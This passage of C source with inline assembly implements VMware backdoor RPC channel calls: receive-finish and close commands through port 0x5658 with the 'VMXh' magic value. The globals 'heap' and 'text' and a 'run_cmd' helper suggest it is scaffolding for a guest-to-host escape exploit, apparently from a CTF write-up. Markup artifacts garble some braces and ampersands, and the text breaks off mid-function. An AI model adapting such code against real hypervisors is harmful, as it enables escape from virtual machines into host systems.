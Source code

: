 ```
        "movl %%ecx,(%%r10)\n\t"
        "popq %%rbp\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10","%r11","%r12"
       );
`}`

void channel_recv_finish(int cookie1,int cookie2,int channel_num,int *res)`{`
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movq $0x1,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0005001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
`}`
void channel_recv_finish2(int cookie1,int cookie2,int channel_num,int *res)`{`
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movq $0x21,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0005001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
`}`
void channel_close(int cookie1,int cookie2,int channel_num,int *res)`{`
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0006001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
`}`
struct channel`{`
    int cookie1;
    int cookie2;
    int num;
`}`;
uint64_t heap =0;
uint64_t text =0;
void run_cmd(char *cmd)`{`
    struct channel tmp;
    int res,len,i;
    char *data;
    channel_open(&amp;tmp.cookie1,&amp;tmp.cookie2,&amp;tmp.num,&amp;res);
    if(!res)`{`
        printf("fail to open channel!\n");
```